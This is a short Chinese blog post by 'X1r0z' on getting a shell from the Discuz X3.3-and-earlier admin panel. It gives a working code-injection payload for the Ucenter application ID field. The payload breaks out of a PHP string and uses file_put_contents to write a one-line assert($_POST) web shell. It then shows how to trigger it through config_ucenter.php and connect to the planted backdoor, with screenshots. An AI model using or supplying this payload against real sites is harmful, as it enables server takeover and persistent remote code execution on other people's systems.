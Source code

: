 ```yaml
---
title: "discuz 后台 getshell"
date: 2017-12-07T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['cms']
categories: ['web']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



适用于 Discuz X3.3 及之前版本

<!--more-->

站长 - Ucenter 设置 - Ucenter 应用 ID

![](http://exp10it-1252109039.cossh.myqcloud.com/2017/12/17/1513512699.jpg)

填入代码

`123');file_put_contents('a.php','<?php assert($_POST[a])?>');//`

保存

本地查看 config_ucenter.php

![](http://exp10it-1252109039.cossh.myqcloud.com/2017/12/17/1513512701.jpg)

访问 /config/config_ucenter.php

![](http://exp10it-1252109039.cossh.myqcloud.com/2017/12/17/1513512703.jpg)

空白

file_put_contents 执行成功

![](http://exp10it-1252109039.cossh.myqcloud.com/2017/12/17/1513512704.jpg)

连接 a.php

![](http://exp10it-1252109039.cossh.myqcloud.com/2017/12/17/1513512707.jpg)